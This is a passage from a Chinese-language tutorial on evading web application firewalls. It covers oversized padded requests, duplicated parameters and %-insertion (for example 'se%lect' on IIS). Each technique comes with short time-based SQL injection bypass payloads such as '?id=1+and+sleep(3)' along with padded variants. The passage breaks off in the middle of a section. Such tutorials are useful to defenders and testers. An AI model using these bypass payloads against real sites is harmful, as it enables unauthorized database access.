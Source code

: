 ![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwiaYCmywxicQVCnFKCBQVcgHUXE7NDTbJxibQTjPOYCZpyzo1Ake12SkPQ/640?wx_fmt=jpeg)

使用异常方法绕过过滤规则检测，注入语句成功写入。

### 8. 超大数据包绕过

部分 WAF 只检测固定大小的内容，可通过添加无用字符进行绕过检测

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw5rgx1UkFn8Zt5eVssAQkzxavFsvIH0BHCP95badq3tfxmt8e4zrAbg/640?wx_fmt=jpeg)

正常 payload：

```
?id=1+and+sleep(3) 
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwTODNadibr13PTG3Dmj5n7YkmUQwk7VFaXPjEo0l8DF8TicjS5OMKXdVQ/640?wx_fmt=jpeg)

绕过 payload：

```
 ?id=1+and+sleep(3)+and+111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw3uajphCyicBdq65TicGMDyoKY5J2WKiapfCkBDIJrKyWEu4KjuUPyNNrQ/640?wx_fmt=jpeg)

添加无用字符，使内容大小超过 WAF 检测能检测到的最大内容。

### 9. 复参数绕过

在提交的 URL 中给一个参数多次赋了不同的值 (?id=1&id=2)，部分 WAF 在处理的过程中可能只处理前面提交的参数值 (id=1)，而后端程序在处理的时候可能取的是最后面的值。

正常 payload：

```
?id=1+and+sleep(3) 
```

绕过 payload：

```
?id=1&id=2+and+sleep(3) 
```

将攻击语句赋予最后一个 id 参数，可绕过 WAF 检测直接进入后端服务器。

### 10.   添加 % 绕过过滤

将 WAF 中过滤的敏感字符通过添加 % 绕过过滤。

例如：WAF 过滤了 select ，可通过 se%lect 绕过过滤, 在进入后端执行中对参数串进行 url 解码时，会直接过滤掉 % 字符，从而注入语句被执行。IIS 下的 asp.dll 文件在对 asp 文件后参数串进行 url 解码时，会直接过滤 % 字符。

正常 payload：
